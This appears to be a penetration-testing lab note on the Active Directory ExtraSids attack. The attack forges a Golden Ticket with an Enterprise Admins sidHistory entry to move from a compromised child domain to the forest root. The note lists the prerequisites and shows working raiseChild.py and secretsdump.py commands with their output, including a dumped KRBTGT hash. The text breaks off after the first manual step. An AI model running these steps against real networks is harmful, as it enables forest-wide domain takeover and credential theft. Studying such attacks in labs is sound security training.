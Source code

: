 ## ExtraSids Attack - Mimikatz

This attack allows for the compromise of a parent domain once the child domain has been compromised. Within the same AD forest, the [sidHistory](https://docs.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) property is respected due to a lack of [SID Filtering](https://web.archive.org/web/20220812183844/https://www.serverbrain.org/active-directory-2008/sid-history-and-sid-filtering.html) protection. 

SID Filtering is a protection put in place to filter out authentication requests from a domain in another forest across a trust. Therefore, if a user in a child domain that has their sidHistory set to the `Enterprise Admins group` (which only exists in the parent domain), they are treated as a member of this group, which allows for administrative access to the entire forest. In other words, we are creating a Golden Ticket from the compromised child domain to compromise the parent domain. 
 [Golden Ticket](https://attack.mitre.org/techniques/T1558/001/) . # Steal or Forge Kerberos Tickets: Golden Ticket
## ExtraSids Attack 
To perform this attack after compromising a child domain, we need the following:
- [ ] Compromised the child domain
- [ ] The KRBTGT hash for the child domain
- [ ] The SID for the child domain
- [ ] The name of a target user in the child domain (does not need to exist!)
- [ ] The FQDN of the child domain.
- [ ] The SID of the Enterprise Admins group of the root domain.
- [ ] With this data collected, the attack can be performed

## Scenario
we have compromised the child domain, we can log in as a Domain Admin or similar and perform the DCSync attack to obtain the NT hash for the KRBTGT account.

---
## Extra Sids in Linux:
## Automatic with raisechild.py
We need to specify the target domain controller and credentials for an administrative user in the child domain; the script will do the rest.
```shell-session
$ raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm

[*] Raising child domain LOGISTICS.INLANEFREIGHT.LOCAL
[*] Forest FQDN is: INLANEFREIGHT.LOCAL
[*] Raising LOGISTICS.INLANEFREIGHT.LOCAL to INLANEFREIGHT.LOCAL
```


## Manual Method
- step1: grab NTLM Hash of KRBTGT in child domain:
```shell-session
$ secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt

krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
```
